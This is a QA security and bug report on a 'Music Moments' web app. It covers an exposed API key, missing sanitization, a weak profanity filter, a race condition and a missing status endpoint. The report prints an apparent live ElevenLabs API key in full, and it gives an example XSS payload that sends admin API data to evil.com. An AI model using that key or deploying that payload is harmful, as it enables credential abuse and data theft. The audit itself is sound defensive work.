 # Music Moments QA Security & Bug Analysis Report

## Executive Summary

**Security Rating: MEDIUM RISK** ⚠️  
**Code Quality: GOOD** ✅  
**Production Readiness: NEEDS WORK** ⚠️

The codebase shows good debugging practices and error handling improvements, but has critical security vulnerabilities and missing production-ready components.

## 🚨 CRITICAL SECURITY ISSUES

### 1. **API Key Exposure (CRITICAL)**
- **File**: `/Users/ivanjackson/Desktop/music moments/.env.local`
- **Issue**: ElevenLabs API key `sk_5d5f0b795e6bac753910d389dcbcb9d4981fa47de21dcc27` is exposed in plaintext
- **Risk**: API key theft, unauthorized usage, financial liability
- **Remediation**: 
  - Immediately revoke and regenerate the API key
  - Never commit `.env.local` files to version control
  - Add `.env*` to `.gitignore`
  - Use environment variables in production deployment

### 2. **Missing Input Sanitization (HIGH)**
- **Files**: `/app/api/generate/route.ts`, `/app/api/elevenlabs-generate/route.ts`
- **Issue**: User inputs (story, lyrics, title) are not sanitized for XSS attacks
- **Risk**: Cross-site scripting, content injection
- **Example Attack**: `<script>fetch('/api/admin').then(r=>r.json()).then(d=>fetch('http://evil.com',{method:'POST',body:JSON.stringify(d)}))</script>`

### 3. **Weak Profanity Filter (MEDIUM)**
- **File**: `/app/api/generate/route.ts` lines 21-25
- **Issue**: Basic string matching can be easily bypassed
- **Bypasses**: `f*uck`, `sh!t`, `damn3d`, character substitution
- **Remediation**: Use professional content filtering service

## 🐛 FUNCTIONAL BUGS

### 1. **Task Storage Race Condition (HIGH)**
- **File**: `/app/api/elevenlabs-generate/route.ts` lines 232-245
- **Issue**: In-memory storage using `global.elevenLabsTasks` is not thread-safe
- **Impact**: Lost tasks, duplicate processing, memory leaks
- **Fix**: Implement proper database storage or Redis cache

### 2. **Status API Bug (HIGH)**
- **Evidence**: Test shows "Task not found" for valid songId
- **Impact**: Users can't track generation progress
- **Root Cause**: Missing `/api/status` endpoint implementation
